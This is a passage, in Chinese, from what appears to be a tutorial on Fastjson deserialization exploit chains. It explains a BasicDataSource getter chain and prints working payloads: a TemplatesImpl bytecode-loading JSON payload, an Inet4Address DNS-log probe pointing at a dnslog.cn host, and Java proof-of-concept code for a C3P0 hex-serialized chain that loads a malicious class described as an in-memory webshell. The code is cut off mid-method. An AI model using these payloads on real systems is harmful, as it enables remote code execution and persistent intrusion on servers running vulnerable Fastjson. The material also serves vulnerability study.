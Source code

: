 链子解析，在BasicDataSource中存在这方法，

简单来说，这串代码可以让我们指定加载的对象和加载器，而driverClassName和driverClassLoader都是有set方法可以指定的。

其实到这里，payload已经比较好认识了，首先是指定，

![](/zj_img/WEBRESOURCEb0a96f2d106731235f825f4c80e37ec0image.png)

当然在到达createConnectionFactory方法之前，他是被其他方法调用的，链子为getConnection()->createDataSource()->createConnectionFactory()，当调用toString的时候，会依次调用该类的getter方法获取值。然后会以字符串的形式输出出来。所以会调用到getConnection方法.

但是要触发getter方法，需要让JSONObject位于JSON的key上，所以会出现两个X包裹的情况，当使用JSON.parseObject(poc);等方法反序列化中会出现。

### 3.2.3 com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl 链

大致方法大差不差，也可以作为不出网的方法，但是条件非常苛刻，jdk版本、反序列化的格式等，都会导致漏洞无法利用；

```
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["base64"],"_name":"a.b","_tfactory":{ },"_outputProperties":{ },"_version":"1.0","allowedProtocols":"all"}
```

### 3.2.4 Inet4Address dns链

```
{"b":{"@type":"java.net.Inet4Address","val":"ailx10.iye2ck.dnslog.cn"}}
```

### 3.2.5 C3P0 hexbase的链

poc代码如下，使用IDEA加载class文件即可，可用于不出网的情况，该链子还有JNDI和远程类加载

```
import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;

public class Test {
    public static void main(String[] args) throws Exception {
        String hex2 = bytesToHex(tobyteArray(gen()));
        String FJ1247 = "{\n" +
                "    \"a\":{\n" +
                "        \"@type\":\"java.lang.Class\",\n" +
                "        \"val\":\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\"\n" +
                "    },\n" +
                "    \"b\":{\n" +
                "        \"@type\":\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",\n" +
                "        \"userOverridesAsString\":\"HexAsciiSerializedMap:" + hex2 + ";\",\n" +
                "    }\n" +
                "}\n";
        System.out.println(FJ1247);
    }
    //FastJson原生反序列化加载恶意类字节码
    public static Object gen() throws Exception {
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        byte[] bytes = Files.readAllBytes(Paths.get("e:\\FRain.class")); //刚才做好的内存马我是放在e盘下，读取其中字节即可
        setValue(templates, "_bytecodes", new byte[][]{bytes});
        setValue(templates, "_name", "1");
        setValue(templates, "_tfactory", null);
```